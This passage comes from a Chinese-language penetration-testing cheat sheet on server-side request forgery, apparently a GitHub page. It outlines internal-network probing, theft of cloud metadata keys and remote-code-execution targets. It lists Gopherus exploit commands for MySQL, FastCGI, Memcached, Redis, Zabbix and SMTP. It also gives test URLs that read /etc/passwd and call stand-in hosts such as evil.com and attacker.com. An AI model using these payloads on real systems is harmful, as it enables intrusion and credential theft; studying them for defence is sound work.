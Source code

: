 * 外网 - 对互联网发起请求(攻击其他网站等)
* 内网 - 对内网中可访问的其他服务器进行探测或攻击
  * 探测内网(Probe intranet)
    * IP - 探测内网网络架构 存活主机
    * service/port - 端口开放情况 如数据库类的服务 （常用判断依据：HTTP响应码、HTTP响应时长）
    * Cloud Instances - 如果含有SSRF漏洞的Web应用运行在云实例 可以尝试获取"云服务商提供的让内部主机查询自身的元数据"
      * AWS(Aws keys, ssh keys and [more](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978))
      * Google Cloud
  * 攻击内网 - 获取主机权限/作为[RCE Chain](http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)中的一环
    * web - SQLi
    * web - PHP FastCGI RCE
    * web - Struts2 RCE
    * web - Confluence Unauthorized RCE(CVE-2019-3396)
    * web - Jenkins插件RCE（CVE-2019-1003000  CVE-2019-1003001  CVE-2019-1003002)
    * Redis未授权/弱口令导致RCE
    * MongoDB未授权/弱口令可获取数据
    * MySQL未授权/弱口令可获取数据
    * Memcached未授权/弱口令可获取数据 可RCE
    * ...


### 漏洞利用

存在SSRF漏洞则可利用工具[Gopherus](https://github.com/tarunkant/Gopherus)生成包含payload的`gopher://`链接进行利用.

* 目前该工具支持的payload类型:
  * MySQL (Port-3306) `gopherus --exploit mysql` 利用方式1:获取数据.  利用方式2:利用MySQL写入文件.
  * FastCGI (Port-9000)`gopherus --exploit fastcgi` PHP FastCGI RCE. 利用条件:端口9000开放且未配置身份认证.
  * Memcached (Port-11211)
    * Python-Pickle De-serialization `gopherus --exploit pymemcache`
    * PHP De-serialization `gopherus --exploit phpmemcache`
    * Ruby-Marshal De-serialization `gopherus --exploit rbmemcache`
    * dumping Memcached content  `gopherus --exploit dmpmemcache`
  * Redis (Port-6379)`gopherus --exploit redis`
  * Zabbix (Port-10050)`gopherus --exploit zabbix` 利用条件:Zabbix服务器开放了10050端口并配置了`EnableRemoteCommands = 1` 则可执行shell命令
  * SMTP (Port-25)`gopherus --exploit smtp`  利用开放的SMTP端口发送邮件

### 测试方法

* 尝试多种URL Schema
  * `file://` `http://example.com/ssrf.php?url=file:///etc/passwd`
  * `dict://` `http://example.com/ssrf.php?dict://evil.com:1337/`
  * `sftp://` `http://example.com/ssrf.php?url=sftp://evil.com:1337/`
  * `ldap://` 轻量级目录访问协议
    * `http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquit`
    * `http://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquit`
    * `http://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit`
  * `tftp://` TFTP（Trivial File Transfer Protocol,简单文件传输协议
    * `http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET`
  * `gopher://` Gopher是一种分布式文档传递服务
    * `http://example.com/ssrf.php?url=http://attacker.com/gopher.php`
